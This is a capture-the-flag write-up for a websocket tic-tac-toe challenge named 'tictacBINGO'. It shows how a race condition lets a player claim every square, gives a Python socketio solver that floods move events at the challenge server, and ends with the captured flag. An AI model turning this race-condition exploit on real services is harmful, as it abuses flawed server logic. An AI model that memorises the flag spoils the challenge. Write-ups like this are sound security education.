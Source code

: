 ## tictacBINGO [500]
In this challenge, we encounter what seems to be a tic-tac-toe game. However, no matter what we do, we cannot win or lose, even if the bot successfully completes a line.

After some exploration, it turns out that we need to fill all sections with `X` to win. We can exploit a *Race Condition* to fill all sections with the flag and get the flag.

### Solver Code
```python
import socketio
import time

sio = socketio.Client()

SERVER_URL = "https://usc-tictacbingo.chals.io"  # Replace with the actual server URL

game_id = None  # Replace with the actual game_id

@sio.event
def connect():
    print("Connected to server")
    # Send event to start a new game
    sio.emit('client_new_game')

@sio.on('server_new_game')
def on_new_game(data):
    global game_id
    print(f'Data from server_new_game: {data}')
    game_id = data['game_id']
    print(f"New game started with ID: {game_id}")
    print("Waiting for your turn to start...")
    send_forced_win()

def send_forced_win():
    winning_squares = [6, 7, 8, 0, 1, 2, 3, 5, 4]
    
    for square in winning_squares:
        sio.emit('client_place_square', {
            'game_id': game_id,
            'square': square
        })
        print(f"Sent move for square {square}")
        time.sleep(0)  # Short delay to avoid sending too quickly

    print("Forced winning moves sent to the server.")

@sio.on('server_board_update')
def on_board_update(data):
    # Display board status
    board = ["X" if x == 0 else "O" if x == 1 else " " for x in data['board']]
    for i in range(0, 9, 3):
        print(f"{board[i]} | {board[i+1]} | {board[i+2]}")
    
    if data['winner'] == 0:
        print(f"Flag: {data['flag']}")
        print("You won! You might have obtained the flag.")
    elif data['winner'] == 1:
        print("You lost...")
    elif data['winner'] == 3:
        print("It's a draw.")
    elif data['turn'] == 0:  # Player's turn
        print("Your turn")

@sio.event
def disconnect():
    print("Disconnected from server")

@sio.event
def connect_error():
    print("Connection failed!")

sio.connect(SERVER_URL, wait_timeout=10)

sio.wait()
```
```
CYBORG{th15_is_w3bs0cke7s_no7_osu!}
```